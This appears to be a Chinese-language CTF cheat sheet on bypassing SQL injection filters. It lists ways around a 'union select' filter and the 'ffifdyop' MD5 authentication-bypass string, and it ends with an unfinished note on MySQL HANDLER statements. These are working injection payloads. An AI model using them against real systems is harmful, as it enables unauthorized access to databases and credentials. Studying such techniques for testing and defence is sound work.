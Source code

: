 
# limit处的逗号
```
limit 1 offset 0
```



# 过滤了union select

``` 
1)双写绕过
unionunion select select

2)在union 和 select之间加其他限定词之类的，比如：all，distinct，distinctrow
union distinct/distinctrow select

3)没有过滤/**/的情况下，也可以使用/**/绕过
union/**/select
uni/**/on select
/*!union*/select

4)union--%0e%0aselect
union--%0e%0aselect        --表示注释后面的内容，%0e删除自身， %0a换行
```



# MD5



**ffifdyop/129581926211651571912466741651878684928**

 ffifdyop

经过md5加密后：276f722736c95d99e921722cf9ed621c

再转换为字符串：'or'6<乱码>  即  'or'66�]��!r,��b


 用途：

select * from admin where password=''or'6<乱码>'

就相当于select * from admin where password=''or 1  实现sql注入



# HANDLER

`HANDLER ... OPEN`语句打开一个表，使其可以使用后续`HANDLER ... READ`语句访问，该表对象未被其他会话共享，并且在会话调用`HANDLER ... CLOSE`或会话终止之前不会关闭

mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。
